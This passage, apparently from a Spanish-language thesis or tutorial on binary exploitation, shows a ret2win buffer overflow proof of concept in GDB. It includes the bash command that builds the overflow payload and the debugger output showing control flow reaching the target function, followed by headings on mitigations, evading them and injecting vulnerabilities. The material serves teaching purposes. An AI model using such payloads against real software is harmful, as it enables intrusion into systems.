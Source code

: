 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 

Breakpoint 3, 0x080491ac in ret2win ()
# Buffer overflow conseguido, se ha ejecutado la funcion ret2win
\end{lstlisting}

Con esta prueba de concepto, se puede entender el peligro de un \acrshort{bof}.
Aunque en esta demostración se tuviera una función `ret2win' que permite ejecutar una consola, hay otras técnicas que permiten llegar al mismo punto mediante librerías comunes como \acrshort{libc}.

\subsection{Mitigaciones introducidas en el compilado} \label{subsec:mitigaciones}
\subsection{Evasión de mitigaciones}
\subsection{Inyección de vulnerabilidades} \label{subsec:vulns}
\section{Soluciones a los retos}
\subsection{Tutoriales}
\subsection{Ejemplos de payloads}